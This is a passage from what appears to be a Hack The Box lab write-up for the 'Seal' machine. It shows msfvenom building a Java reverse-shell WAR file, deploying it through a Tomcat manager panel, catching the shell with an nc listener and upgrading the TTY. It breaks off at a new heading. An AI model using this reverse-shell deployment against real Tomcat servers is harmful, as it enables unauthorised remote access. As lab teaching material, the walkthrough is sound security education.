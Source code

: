 [_Click for full
image_](https://0xdfimages.gitlab.io/img/image-20210903170602960.png)

### Shell

With access to the manager panel, I’ll create a malicious WAR file using
`msfvenom`:

    
    
    oxdf@parrot$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.22 lport=443 -f war -o rev.war
    Payload size: 13316 bytes
    Final size of war file: 13316 bytes
    Saved as: rev.war
    

I’ll select it with the WAR file to deploy section:

![image-20210903170815101](https://0xdfimages.gitlab.io/img/image-20210903170815101.png)

And push Deploy. It shows up in the applications:

![image-20210903170835848](https://0xdfimages.gitlab.io/img/image-20210903170835848.png)

With `nc` listening, I’ll click `/rev` and it hangs, and a shell connects:

    
    
    oxdf@parrot$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.22 lport=443 -f war -o rev.war
    Payload size: 13316 bytes
    Final size of war file: 13316 bytes
    Saved as: rev.war
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.22] from (UNKNOWN) [10.10.10.250] 36418
    id
    uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
    

I’ll upgrade the shell using `script`:

    
    
    script /dev/null -c bash
    Script started, file is /dev/null 
    tomcat@seal:/var/lib/tomcat9$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    tomcat@seal:/var/lib/tomcat9$
    

## Shell as luis

### Enumeration
